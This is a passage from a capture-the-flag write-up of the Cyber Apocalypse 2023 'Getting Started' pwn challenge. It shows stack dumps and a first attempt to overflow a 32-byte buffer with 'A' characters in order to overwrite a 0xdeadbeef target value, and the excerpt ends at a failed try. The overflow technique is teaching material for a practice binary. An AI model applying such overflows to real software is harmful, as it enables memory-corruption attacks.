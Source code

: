 ```shell


After we insert 4 "B"s, (the hex representation of B is 0x42), the stack layout looks like this:


      [Addr]       |      [Value]       
-------------------+-------------------
0x00007ffc23695110 | 0x4242424241414141 <- Start of buffer
0x00007ffc23695118 | 0x0000000000000000
0x00007ffc23695120 | 0x0000000000000000
0x00007ffc23695128 | 0x0000000000000000
0x00007ffc23695130 | 0x6969696969696969 <- Dummy value for alignment
0x00007ffc23695138 | 0x00000000deadbeef <- Target to change
0x00007ffc23695140 | 0x000056249d10c800 <- Saved rbp
0x00007ffc23695148 | 0x00007fbe50e21c87 <- Saved return address
0x00007ffc23695150 | 0x0000000000000001
0x00007ffc23695158 | 0x00007ffc23695228

◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉
◉                                                                                                 ◉
◉  Fill the 32-byte buffer, overwrite the alginment address and the "target's" 0xdeadbeef value.  ◉
◉                                                                                                 ◉
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉

>> 
```

In here, we need to fill the 32-byte buffer, overwrite the alginment address and the "target's" 0xdeadbeef value.

**To do so, I'll first send 32 bytes of "A":**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Pwn/Getting-Started/challenge)-[2023.03.19|13:30:28(HKT)]
└> python3 -c "print('A' * 32)" | ./gs
[...]
>> 

      [Addr]       |      [Value]       
-------------------+-------------------
0x00007ffdb70528e0 | 0x4141414141414141 <- Start of buffer
0x00007ffdb70528e8 | 0x4141414141414141
0x00007ffdb70528f0 | 0x4141414141414141
0x00007ffdb70528f8 | 0x4141414141414141
0x00007ffdb7052900 | 0x6969696969696900 <- Dummy value for alignment
0x00007ffdb7052908 | 0x00000000deadbeef <- Target to change
0x00007ffdb7052910 | 0x00005581662c6800 <- Saved rbp
0x00007ffdb7052918 | 0x00007fb9eca21c87 <- Saved return address
0x00007ffdb7052920 | 0x0000000000000001
0x00007ffdb7052928 | 0x00007ffdb70529f8

 
[-] You failed!
```
